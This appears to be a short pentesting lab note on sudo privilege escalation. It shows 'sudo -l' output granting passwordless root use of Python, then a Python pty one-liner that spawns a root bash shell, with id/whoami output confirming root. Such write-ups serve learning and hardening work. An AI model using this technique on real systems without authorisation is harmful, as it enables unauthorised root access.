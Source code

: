 ```yaml
---
layout: default
title: Python
parent: Sudo
nav_order: 11
---
```


# Python

---

## Check Sudo Permissions

```bash
armour@mycmsms:~$ sudo -l
Matching Defaults entries for armour on mycmsms:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User armour may run the following commands on mycmsms:
    (root) NOPASSWD: /usr/bin/python

```

We can run Python as root so let's just spawn bash shell and get root privileges.

```bash
armour@mycmsms:~$ sudo /usr/bin/python -c 'import pty;pty.spawn("/bin/bash")'
root@mycmsms:/home/armour# id
uid=0(root) gid=0(root) groups=0(root)
root@mycmsms:/home/armour# whoami
root

```
